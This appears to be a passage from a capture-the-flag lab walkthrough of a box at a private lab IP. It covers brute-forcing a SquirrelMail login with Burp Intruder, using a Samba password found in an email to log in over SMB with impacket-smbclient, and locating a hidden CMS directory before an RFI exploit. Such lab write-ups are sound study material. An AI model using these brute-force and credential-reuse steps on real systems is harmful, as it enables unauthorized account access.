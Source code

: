 We can do right-click on it and send it to Intruder.

Change the username to milesdyson and Add § on testpassword in the request:

```shell
<SNIP>
login_username=milesdyson&secretkey=§testpassword§&js_autodetect_results=1&just_logged_in=1
```

Select as payload the log1.txt list.

Then click on Start attack.

We will notice that there is one password which gave us a different response:

```shell
cyborg007haloterminator
```

Lets try to log in as milesdyson using that password:

```shell
http://10.10.232.106/squirrelmail/src/login.php
```

It worked! We are in.

### SMB access as milesdyson after finding password inside email and finding important.txt
Checking the emails, we found the following password inside the email Samba Password Reset:

```shell
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

Now we can try these credentials to get SMB access:

```shell
impacket-smbclient milesdyson:')s{A&2Z=F^n_E.B`'@10.10.232.106
```

Enumerating and checking files inside the SMB share of milesdyson, we found a file called important.txt.

# Foothold
### Finding /45kra24zxs28v3yd and Cuppa RFI Exploitation

Inside important.txt we found the following:

```shell
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

It seems like its a hidden directory, lets try to access it:

```shell
http://10.10.232.106/45kra24zxs28v3yd/
```
